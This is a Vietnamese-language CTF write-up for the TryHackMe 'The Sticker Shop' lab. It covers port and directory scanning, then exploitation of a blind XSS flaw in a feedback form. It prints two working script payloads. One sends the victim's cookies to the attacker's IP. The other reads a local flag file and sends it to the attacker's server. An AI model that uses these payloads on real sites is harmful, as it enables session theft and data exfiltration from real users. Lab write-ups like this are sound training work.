









<div align="center">
    <h1>☁️ TryHackMe The Sticker Shop Writeup 🛹
</h1>
</div>

## 🚀 1. Khởi động target


## 🔍 2. Recon

- Sử dụng `nmap` quét mục tiêu



- Phát hiện 2 cổng mở
    - Cổng`22` cho dịch vụ ssh.

    - Cổng `8080` mở chạy dịch vụ `http` cho một ứng dụng web sử dụng `Werkzeug httpd 3.0.1` gì đó chạy trên `Python 3.8.10` với tiêu đề là `Cat Sticker Shop`.

- Tiếp tục quét thêm thư mục bằng `gobuster`



- Tuy nhiên cũng không tìm được kết quả nào đặc biệt (đã quét một lúc lâu trước đó, đoạn này chỉ chạy lại để chụp ảnh minh họa :)))

- Truy cập địa chỉ taget với port `8080` trước đó.



- Mục tiêu là một trang Cat Sticker Shop khá đơn giản

- `Home` là một trang web tĩnh, ngó qua source code có vẻ cũng không có thứ gì đáng để tâm (ngoại trừ 2 còn mèo 🐱🐱)

- Trang `Feedback` cho phép để lại phản hồi của khách hàng -> có thể là mục tiêu để khai thác.



## 3. Tìm flag
- Thử tải flag bằng `curl` xem có được không.
```
 curl http://10.10.133.147:8080/flag.txt
```



- Kết quả là không được (tất nhiên rồi :)) ) 
- Dựa vào một số gợi ý trong phần mô tả của bài lab, có vẻ trang web này dính `XSS`

- Tuy nhiên khi nhập bất kì feedback nào, kể cả payload `XSS` thì chỉ nhận được thông báo `Thanks for your feedback! It will be evaluated shortly by our staff`



- => Có thể là `Blind XSS`.
- Để kiểm tra, nhập thử một payload có call back tới server của người tấn công

- Chuẩn bị server bằng lệnh `python3 -m http.server 4231`
- Nhập payload sau vào feedback (với `10.21.175.20` là ip của máy người tấn công)
```
<script>new Image().src="http://10.21.175.20:4321/?c="+document.cookie;</script>
```



- Kiểm tra server


- Có vẻ payload chạy thành công => có thể khai thác được `Blind XSS`.

- Tuy nhiên đoạn này mất thời gian vì khá khó để tìm payload phù hợp cho việc extract flag.

- Sau khi mò mẫm mẫu payload trên một số trang như [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), PortSwigger,... và sử dụng kĩ năng hỏi đáp (với ChatGPT :) ), tạo được payload như sau:

```
'"><script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(r => r.text())
  .then(flag => fetch("http://10.21.175.20:2222/?flag=" + encodeURIComponent(flag)))
</script>
```
- `fetch("http://127.0.0.1:8080/flag.txt")` - Gửi `HTTP GET request` từ trình duyệt đến máy `localhost` của mục tiêu, ở đây có thể là nhân viên shop.
    - Lúc đầu, tôi sử dụng địa chỉ của taget, tuy nhiên không thành công, sau đó khi đọc được gợi ý `so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback` từ mô tả cả bài lab => chuyển sang localhost và thành công
- `.then(r => r.text())` - Khi `fetch()` thành công, nó trả về một `Response object`, đoạn này giúp chuyển response thành chuỗi text để xử lý tiếp.

- `.then(flag => fetch("http://10.21.175.20:2222/?flag=" + encodeURIComponent(flag)))` - Gửi flag vừa lấy được về máy chủ của attacker. `encodeURIComponent()` để đảm bảo flag không bị lỗi URL khi chứa ký tự đặc biệt.

- Kiểm tra server, thành công extract được flag.




- Submit thành công 🎉



- Hoàn thành bài lab 🔥🔥🔥

<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>